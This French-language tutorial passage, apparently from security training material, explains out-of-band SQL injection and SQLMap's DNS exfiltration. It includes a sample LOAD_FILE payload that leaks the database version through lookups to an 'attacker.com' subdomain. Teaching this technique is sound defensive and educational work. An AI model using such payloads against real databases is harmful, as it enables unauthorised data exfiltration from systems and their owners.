 * * * * *

Injection SQL hors bande
------------------------

Exemple de `Out-of-band SQL Injection`:

Code : sql

```
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))

```

Ceci est considéré comme l'un des types de SQLi les plus avancés, utilisé dans les cas où tous les autres types ne sont pas pris en charge par l'application Web vulnérable ou sont trop lents (par exemple, SQLi aveugle basé sur le temps). SQLMap prend en charge SQLi hors bande via « l'exfiltration DNS », où les requêtes demandées sont récupérées via le trafic DNS.

En exécutant SQLMap sur le serveur DNS pour le domaine sous contrôle (par exemple `.attacker.com`), SQLMap peut effectuer l'attaque en forçant le serveur à demander des sous-domaines inexistants (par exemple `foo.attacker.com`), où `foo`se trouverait la réponse SQL que nous souhaitons recevoir. SQLMap peut ensuite collecter ces requêtes DNS erronées et en collecter la `foo`partie, pour former la réponse SQL entière.

